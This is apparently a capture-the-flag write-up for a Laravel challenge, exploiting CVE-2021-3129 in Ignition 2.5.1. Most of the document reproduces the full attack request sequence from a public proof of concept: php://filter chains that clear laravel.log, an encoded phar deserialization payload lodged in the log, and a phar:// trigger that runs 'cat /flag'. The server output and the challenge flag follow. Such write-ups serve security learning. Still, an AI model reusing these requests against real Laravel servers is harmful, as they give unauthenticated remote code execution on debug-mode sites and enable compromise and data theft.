

# Challenge 25 (Ignite) Solve

* Category - Laravel
* Difficulty - Ultimate



* This challenge is our first at the Ultimate level so we must have some work to do.
* The page explains a few things all at once:
  * Dropped Whoops!
  * Added Ignition 2.5.1
  * The flag is at `/flag`
  * Upgraded to Laravel 8
  * An error on the `/dashboard` route


* So the removal of Whoops is interesting. Its an error tracker and the release notes for Laravel 6 say:

> Laravel 6 ships with Ignition, a new open source exception detail page created by Freek Van der Herten and Marcel Pociot. Ignition offers many benefits over previous releases, such as improved Blade error file and line number handling, runnable solutions for common problems, code editing, exception sharing, and an improved UX.

* So we know at least we can't exploit something if its gone.
* The error page above is Ignition
* So lets do some research about this Ignition 2.5.1

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file_get_contents() and file_put_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

* It did not take long to find a CVE for this [CVE-2021-3129](https://nvd.nist.gov/vuln/detail/CVE-2021-3129)
  * This appears to be an arbitrary code execution vulnerability.
* So lets Google for a POC to work from
  * I found a cool research PoC on [GitHub](https://github.com/knqyf263/CVE-2021-3129/blob/main/attacker/exploit.py) from [knqyf263](https://github.com/knqyf263)
  * As well as the actual release of the vulnerability from [Ambionics](https://www.ambionics.io/blog/laravel-debug-rce) which has the real good details of the exploit
* So lets pull down this [PoC](https://github.com/knqyf263/CVE-2021-3129/blob/main/attacker/exploit.py) and adjust the script with our variables.
* Lets also attach a proxy so we can record how this attack works for our own curiosity.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 307
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
   }
}
```

 * This appears to use some clever method of clearing out a file.
 * The next request is the same call again, which must be needed to properly clear the entire logs.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 142
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"aa"
   }
}
```

 * This part starts some preparation to align bytes for the future steps of the exploit.
 * So if you were to peek the `laravel.log` file you'd see something like:

```json
{
    "message": "file_get_contents(aa): failed to open stream: No such file or directory",
    "exception": "ErrorException",
    "file": "/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php",
    "line": 75,
    "trace": "..."
}    
```

 * So the invalid location is echoed into the file.
 * The next request is lodging the payload.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 4461
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=72=00=56=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=42=00=2B=00=41=00=51=00=41=00=41=00=54=00=7A=00=6F=00=7A=00=4D=00=6A=00=6F=00=69=00=54=00=57=00=39=00=75=00=62=00=32=00=78=00=76=00=5A=00=31=00=78=00=49=00=59=00=57=00=35=00=6B=00=62=00=47=00=56=00=79=00=58=00=46=00=4E=00=35=00=63=00=32=00=78=00=76=00=5A=00=31=00=56=00=6B=00=63=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4F=00=54=00=6F=00=69=00=41=00=43=00=6F=00=41=00=63=00=32=00=39=00=6A=00=61=00=32=00=56=00=30=00=49=00=6A=00=74=00=50=00=4F=00=6A=00=49=00=35=00=4F=00=69=00=4A=00=4E=00=62=00=32=00=35=00=76=00=62=00=47=00=39=00=6E=00=58=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=4A=00=63=00=51=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=53=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=36=00=4E=00=7A=00=70=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=61=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=37=00=63=00=6A=00=6F=00=79=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6C=00=4E=00=70=00=65=00=6D=00=55=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=54=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=44=00=4D=00=36=00=49=00=6D=00=56=00=6A=00=61=00=47=00=38=00=67=00=4E=00=6D=00=4E=00=6A=00=5A=00=6A=00=42=00=69=00=59=00=57=00=45=00=67=00=4A=00=69=00=59=00=67=00=59=00=32=00=46=00=30=00=49=00=43=00=39=00=6D=00=62=00=47=00=46=00=6E=00=49=00=43=00=59=00=6D=00=49=00=47=00=56=00=6A=00=61=00=47=00=38=00=67=00=4E=00=6D=00=4E=00=6A=00=5A=00=6A=00=42=00=69=00=59=00=57=00=45=00=69=00=4F=00=33=00=4D=00=36=00=4E=00=54=00=6F=00=69=00=62=00=47=00=56=00=32=00=5A=00=57=00=77=00=69=00=4F=00=30=00=34=00=37=00=66=00=58=00=31=00=7A=00=4F=00=6A=00=67=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=78=00=6C=00=64=00=6D=00=56=00=73=00=49=00=6A=00=74=00=4F=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=51=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=6C=00=75=00=61=00=58=00=52=00=70=00=59=00=57=00=78=00=70=00=65=00=6D=00=56=00=6B=00=49=00=6A=00=74=00=69=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=78=00=4E=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=59=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=54=00=47=00=6C=00=74=00=61=00=58=00=51=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=7A=00=6F=00=69=00=41=00=43=00=6F=00=41=00=63=00=48=00=4A=00=76=00=59=00=32=00=56=00=7A=00=63=00=32=00=39=00=79=00=63=00=79=00=49=00=37=00=59=00=54=00=6F=00=79=00=4F=00=6E=00=74=00=70=00=4F=00=6A=00=41=00=37=00=63=00=7A=00=6F=00=33=00=4F=00=69=00=4A=00=6A=00=64=00=58=00=4A=00=79=00=5A=00=57=00=35=00=30=00=49=00=6A=00=74=00=70=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=32=00=4F=00=69=00=4A=00=7A=00=65=00=58=00=4E=00=30=00=5A=00=57=00=30=00=69=00=4F=00=33=00=31=00=39=00=66=00=51=00=55=00=41=00=41=00=41=00=42=00=6B=00=64=00=57=00=31=00=74=00=65=00=51=00=51=00=41=00=41=00=41=00=42=00=56=00=6E=00=47=00=46=00=68=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=6B=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=30=00=5A=00=58=00=4E=00=30=00=4C=00=6E=00=52=00=34=00=64=00=41=00=51=00=41=00=41=00=41=00=42=00=56=00=6E=00=47=00=46=00=68=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=6B=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=30=00=5A=00=58=00=4E=00=30=00=41=00=30=00=4B=00=52=00=71=00=67=00=34=00=37=00=5A=00=4B=00=77=00=48=00=75=00=53=00=67=00=31=00=67=00=4D=00=56=00=4D=00=35=00=4B=00=42=00=48=00=43=00=64=00=6F=00=43=00=41=00=41=00=41=00=41=00=52=00=30=00=4A=00=4E=00=51=00=67=00=3D=00=3D=00a"
   }
}
```

 * So now this payload is lodged into the `laravel.log` file.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 278
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
   }
}
```

 * This payload has some real interesting behavior. From converting between charsets, some invalid characters are dropped
 * This is perfectly designed with the last calls to leave just the executable "phar" left in the log.
 * So the final call is just executing this phar from the vulnerable parameter.

```json
POST /_ignition/execute-solution HTTP/1.1
Host: [redacted].chals.io
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 183
Content-Type: application/json

{
   "solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
   "parameters":{
      "variableName":"cve20213129",
      "viewFile":"phar://../storage/logs/laravel.log/test.txt"
   }
}
```

So now if we look at the response from that call.

```json
HTTP/1.1 500 Internal Server Error
Host: [redacted].chals.io
Date: Sat, 09 Oct 2021 13:40:35 GMT
Connection: close
X-Powered-By: PHP/7.3.31
Cache-Control: no-cache, private
Date: Sat, 09 Oct 2021 13:40:35 GMT
Content-Type: application/json

{
    "message": "file_put_contents(phar://../storage/logs/laravel.log/test.txt): failed to open stream: phar error: write operations disabled by the php.ini setting phar.readonly",
    "exception": "ErrorException",
    "file": "/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php",
    "line": 69,
    "trace": [removed],
6ccf0baa
TOAD{phR0m-L4R4v3l-70-R007-C0n9R472}
6ccf0baa
```

 * So now we can see the flag at the bottom.
 * This is because if we look back at what we executed via this exploit.

```
└─# python3 exploit.py "cat /flag"                                                                                                                                                                                                                 1 ⨯
[*] Try to use monolog_rce1 for exploitation.
[+] PHPGGC found. Generating payload and deploy it to the target
[*] Result:
TOAD{phR0m-L4R4v3l-70-R007-C0n9R472}
```

 * We pushed the command - `cat /flag` into the exploit which after chained together was executed
 * The response of this was then returned to me and thus the flag was captured.

---
* You are left with the flag - `TOAD{phR0m-L4R4v3l-70-R007-C0n9R472}`.